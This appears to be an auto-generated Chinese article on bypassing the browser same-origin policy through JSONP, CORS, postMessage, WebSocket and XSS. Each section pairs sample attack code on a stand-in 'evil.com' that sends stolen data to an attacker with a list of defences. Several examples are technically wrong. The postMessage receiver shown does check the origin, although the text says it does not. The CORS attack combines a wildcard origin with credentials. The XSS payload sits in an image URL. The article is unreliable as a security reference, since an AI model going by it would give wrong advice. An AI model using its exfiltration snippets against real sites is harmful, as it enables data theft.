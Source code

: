 ### 同源策略绕过方法案例分析

同源策略（Same-Origin Policy, SOP）是浏览器实施的一种安全机制，用于限制不同源之间的资源访问。然而，由于现代Web应用的复杂性，同源策略有时会被绕过，导致安全漏洞。本文将分析几个真实世界中的同源策略绕过方法漏洞案例和攻击实例。

#### 1. JSONP（JSON with Padding）漏洞

**案例背景：**
JSONP是一种用于跨域请求的技术，它通过动态创建`<script>`标签来加载远程资源。由于`<script>`标签不受同源策略限制，JSONP可以实现跨域数据获取。

**漏洞分析：**
JSONP的主要问题在于它依赖于回调函数，攻击者可以通过构造恶意回调函数来窃取数据。例如，如果一个网站使用JSONP来获取用户敏感信息，攻击者可以诱导用户访问一个恶意网站，该网站通过JSONP请求目标网站的数据，并在回调函数中窃取这些数据。

**攻击实例：**
假设目标网站`example.com`提供了一个JSONP接口，用于获取用户信息：
```javascript
http://example.com/userinfo?callback=processUserInfo
```
攻击者可以在恶意网站`evil.com`上构造以下代码：
```javascript
<script>
function processUserInfo(data) {
    // 窃取用户信息
    sendToAttacker(data);
}
</script>
<script src="http://example.com/userinfo?callback=processUserInfo"></script>
```
当用户访问`evil.com`时，`processUserInfo`函数会被调用，用户信息被窃取。

**防御措施：**
- 避免使用JSONP，改用CORS（Cross-Origin Resource Sharing）。
- 对JSONP接口进行严格的输入验证和输出编码。

#### 2. CORS配置不当

**案例背景：**
CORS是一种允许浏览器跨域请求资源的机制。如果CORS配置不当，攻击者可以利用这些配置漏洞绕过同源策略。

**漏洞分析：**
CORS配置不当的常见问题包括：
- 允许所有来源（`Access-Control-Allow-Origin: *`）。
- 允许任意HTTP方法（`Access-Control-Allow-Methods: *`）。
- 允许任意HTTP头（`Access-Control-Allow-Headers: *`）。

**攻击实例：**
假设目标网站`example.com`配置了CORS，允许所有来源：
```http
Access-Control-Allow-Origin: *
```
攻击者可以在恶意网站`evil.com`上构造以下代码：
```javascript
fetch('http://example.com/sensitive-data', {
    method: 'GET',
    credentials: 'include'
})
.then(response => response.json())
.then(data => sendToAttacker(data));
```
当用户访问`evil.com`时，`fetch`请求会成功获取`example.com`的敏感数据。

**防御措施：**
- 限制CORS允许的来源，避免使用通配符。
- 限制CORS允许的HTTP方法和头。
- 使用预检请求（Preflight Request）来验证跨域请求。

#### 3. PostMessage漏洞

**案例背景：**
`postMessage`是HTML5引入的一种跨文档通信机制，允许不同源的窗口之间进行安全的消息传递。然而，如果`postMessage`的使用不当，可能导致同源策略被绕过。

**漏洞分析：**
`postMessage`的主要问题在于接收方没有正确验证消息的来源，导致攻击者可以伪造消息来源，窃取或篡改数据。

**攻击实例：**
假设目标网站`example.com`使用`postMessage`与嵌入的iframe进行通信：
```javascript
window.addEventListener('message', function(event) {
    if (event.origin === 'http://trusted.com') {
        // 处理消息
        processMessage(event.data);
    }
});
```
攻击者可以在恶意网站`evil.com`上构造以下代码：
```javascript
var iframe = document.createElement('iframe');
iframe.src = 'http://example.com';
document.body.appendChild(iframe);
iframe.onload = function() {
    iframe.contentWindow.postMessage('malicious data', '*');
};
```
由于`example.com`没有正确验证消息来源，`malicious data`会被处理，可能导致安全漏洞。

**防御措施：**
- 始终验证`postMessage`的来源，避免使用通配符。
- 使用严格的消息格式和内容验证。

#### 4. WebSocket漏洞

**案例背景：**
WebSocket是一种全双工通信协议，允许浏览器与服务器进行实时通信。由于WebSocket不受同源策略限制，攻击者可以利用WebSocket进行跨域攻击。

**漏洞分析：**
WebSocket的主要问题在于服务器没有正确验证客户端身份，导致攻击者可以伪装成合法客户端，窃取或篡改数据。

**攻击实例：**
假设目标网站`example.com`使用WebSocket进行实时通信：
```javascript
var socket = new WebSocket('ws://example.com/chat');
socket.onmessage = function(event) {
    // 处理消息
    processMessage(event.data);
};
```
攻击者可以在恶意网站`evil.com`上构造以下代码：
```javascript
var socket = new WebSocket('ws://example.com/chat');
socket.onopen = function() {
    socket.send('malicious message');
};
```
由于`example.com`没有正确验证客户端身份，`malicious message`会被处理，可能导致安全漏洞。

**防御措施：**
- 使用TLS加密WebSocket通信。
- 对客户端进行身份验证和授权。

#### 5. XSS（跨站脚本）漏洞

**案例背景：**
XSS是一种常见的Web安全漏洞，攻击者可以通过注入恶意脚本，绕过同源策略，窃取或篡改数据。

**漏洞分析：**
XSS的主要问题在于网站没有对用户输入进行严格的验证和过滤，导致攻击者可以注入恶意脚本，窃取或篡改数据。

**攻击实例：**
假设目标网站`example.com`存在XSS漏洞，攻击者可以在恶意网站`evil.com`上构造以下代码：
```javascript
var img = document.createElement('img');
img.src = 'http://example.com/search?q=<script>alert("XSS")</script>';
document.body.appendChild(img);
```
当用户访问`evil.com`时，恶意脚本会被注入到`example.com`，导致XSS攻击。

**防御措施：**
- 对用户输入进行严格的验证和过滤。
- 使用内容安全策略（CSP）限制脚本执行。

### 结论

同源策略是Web安全的重要机制，但由于现代Web应用的复杂性，同源策略有时会被绕过。通过分析真实世界中的同源策略绕过方法漏洞案例和攻击实例，我们可以更好地理解这些漏洞的原理和危害，并采取相应的防御措施，提高Web应用的安全性。

---

*文档生成时间: 2025-03-11 16:10:42*






















